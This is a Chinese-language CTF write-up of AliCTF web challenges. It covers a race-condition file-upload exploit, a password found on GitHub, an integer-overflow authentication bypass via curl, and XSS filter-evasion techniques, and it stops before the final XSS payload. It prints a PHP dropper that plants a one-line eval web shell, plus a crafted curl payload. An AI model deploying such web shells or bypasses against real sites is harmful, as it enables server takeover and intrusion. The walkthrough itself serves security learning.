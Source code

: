 web400a就是抓包会看到一个文件上传的表单,上传文件后会给出上传后的路径和文件名,发现文件名与当前时间相关。 如/upload/upload/20140920170801.php。但是访问的时候会发现被删了。因此需要不断发生请求在被删之前访问到上传上去的脚本。脚本内容为在上一 级目录生成一句话。

```
<?php file_put_contents('../salt.php', '<?php eval($_POST["c"]); ?>'); ?>

```

然后在上级目录找到上传后的一句话,就可以菜刀连接了。 菜刀连上去之后发觉/home/wwwroot/default/upload目录下面有一个dfghjdjlkfghd.zip。但是有密码,所以一时之间束手无测。随后根据提示,要去 Github上进行查找。然后再根据之前curl连接的时候发觉返回结果有一个注释,大概是这个样子:

```
<!--
    @author: nidongde
-->

```

自然地,就去找nidongde的github主页,随后发现https://github.com/nidongde/test页面有解压缩密码: test_nidongde,解压之后得到一个php文件。提供了它的网址,以及一段内容,通过认证之后服务器会返回flag。条件:

```
if($key == '_POST' && ~$value['alibaba']['security'] == -2347230984235 && strlen($value['alibaba']['security']) >= 0){

```

由于对GET、GLOBAL等做了过滤,所以就用POST方式传数据。一开始卡住了,因为发现弄不出足够大的整数取反之后符合要求,但是再根据提示要用 x64的思维。x64下面自然int类型是很大的。最后的payload如下:

```
curl -d '_POST[alibaba][security]=2347230984234' -i 'http://web400b.alictf.com/alibaba_CTF_security/'

```

即可得到flag。

### 500pt

页面最顶端js解密后为

```
location.href.indexOf("helloalibaba")==-1&&(location.href="http://www.alictf.com/");

```

即需要在url里有"helloalibaba",可以人为构造a= helloalibaba来绕过

经过测试,本题有两层过滤。

Php过滤单引号、双引号和“-”,防止逃逸出script标签。

Js主要过滤`<`,并把所有字母变大写。

因为参数直接输出在`<script>`内,绕过php的过滤可用js的字符编码,变成\xff形式。

对js过滤,可以用`<<script></script>`绕过。因为会把所有字母变大写,所以`<script>`标签里js代码中不能出现字母。在这里通过调用远程js代码来避免写这种js。

因此最终payload为
